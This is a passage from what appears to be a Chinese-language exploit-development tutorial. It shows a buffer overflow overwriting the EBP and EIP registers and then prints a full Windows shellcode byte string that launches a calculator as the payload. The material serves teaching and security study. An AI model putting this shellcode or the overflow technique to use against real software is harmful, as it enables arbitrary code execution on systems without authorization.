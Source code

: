 我们可以看到它工作正常，因为 `EPB` 寄存器被 `0x42424242`（即 `BBBB` 的 ASCII 表示）覆盖，而 `EIP` 寄存器也被 `0x43434343`（即 `CCCC` 的 ASCII 表示）覆盖：

![图 8.17 – 使用调试器调查缓冲区溢出崩溃](img/B16207_08_017.jpg)

图 8.17 – 使用调试器调查缓冲区溢出崩溃

现在，作为有效负载，我将使用以下 shellcode，它启动一个计算器：

```
shellcode = \
```

```
"\x31\xC0\x50\x68\x63\x61\x6C\x63\x54\x59\x50\x40\x92\x74" \
```

```
"\x15\x51\x64\x8B\x72\x2F\x8B\x76\x0C\x8B\x76\x0C\xAD\x8B" \ "\x30\x8B\x7E\x18\xB2\x50\xEB\x1A\xB2\x60\x48\x29\xD4\x65" \
```

```
"\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48" \ "\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B" \
```

```
"\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17" \ "\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B" \
```

```
"\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF" \
```

```
"\xD7"
```
